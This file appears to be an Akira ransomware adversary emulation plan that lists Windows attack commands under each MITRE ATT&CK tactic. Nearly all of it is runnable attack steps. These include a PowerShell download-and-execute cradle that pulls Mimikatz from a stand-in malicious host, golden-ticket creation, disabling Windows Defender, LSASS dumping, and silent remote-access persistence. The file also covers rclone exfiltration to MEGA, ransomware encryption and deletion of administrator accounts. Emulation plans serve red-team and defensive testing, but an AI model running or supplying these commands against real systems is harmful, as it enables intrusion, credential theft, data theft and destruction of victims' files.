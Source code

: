 # Akira Ransomware Emulation Plan

## Initial Access (TA0001)

# T1133 - External Remote Services (VPN compromise)

# T1078 - Valid Accounts (RDP with stolen creds)
xfreerdp /v:10.0.0.100 /u:admin /p:'P@ssw0rd!' +drive:/tmp/share +clipboard /dynamic-resolution


## Execution (TA0002)

# T1059.001 - PowerShell (Credential harvesting)
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"


## Persistence (TA0003)

# T1219 - Remote Access Software (AnyDesk install)
curl -o AnyDeskSetup.exe https://download.anydesk.com/AnyDesk.exe && AnyDeskSetup.exe --install C:\ProgramData\AnyDesk --silent --start-with-win
Privilege Escalation (TA0004)


# T1558 - Kerberos Ticket Theft (Mimikatz)
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-123456789 /krbtgt:a1b2c3d4e5f6g7h8 /ptt" exit


## Defense Evasion (TA0005)

# T1562.001 - Disable Windows Defender
powershell -exec bypass -c "Set-MpPreference -DisableRealtimeMonitoring \$true; Set-MpPreference -DisableIOAVProtection \$true"

# T1036.005 - Masquerading (System32 mimic)
copy C:\malware\backdoor.exe C:\Windows\System32\svchost.exe /y


## Credential Access (TA0006)

# T1003.001 - LSASS Dumping (Procdump)
procdump.exe -accepteula -ma lsass.exe lsass.dmp


## Discovery (TA0007)

# T1482 - Domain Trust Discovery
nltest /domain_trusts /all_trusts

# T1018 - Remote System Discovery
for /l %i in (1,1,254) do @ping -n 1 -w 100 10.0.0.%i | find "Reply" 


## Lateral Movement (TA0008)

# T1021.001 - RDP Lateral Movement
cmdkey /generic:TERMSRV/10.0.1.100 /user:DOMAIN\Admin /pass:P@ssw0rd! && mstsc /v:10.0.1.100


## Collection (TA0009)

# T1213.002 - SharePoint Data Collection
powershell -c "(New-Object Net.WebClient).DownloadFile('https://sharepoint.corp.com/Shared%20Documents/secret.docx', 'C:\Temp\secret.docx')"


## Exfiltration (TA0010)

# T1560.001 - Archive with WinRAR
"C:\Program Files\WinRAR\Rar.exe" a -hpP@ssw0rd -r -m5 C:\exfil\finance.rar C:\Finance\*

# T1567.002 - Rclone Exfiltration
rclone copy C:\exfil\finance.rar mega:exfil/Akira_Operation -v --config=rclone.conf


## Impact (TA0040)

# T1486 - File Encryption (Akira ransomware)
akira.exe --encrypt --path C:\ --extensions ".doc,.pdf,.xls" --key RSA_PUBLIC_KEY

# T1531 - Account Deletion
net user Administrator /delete && net user BackupAdmin /delete
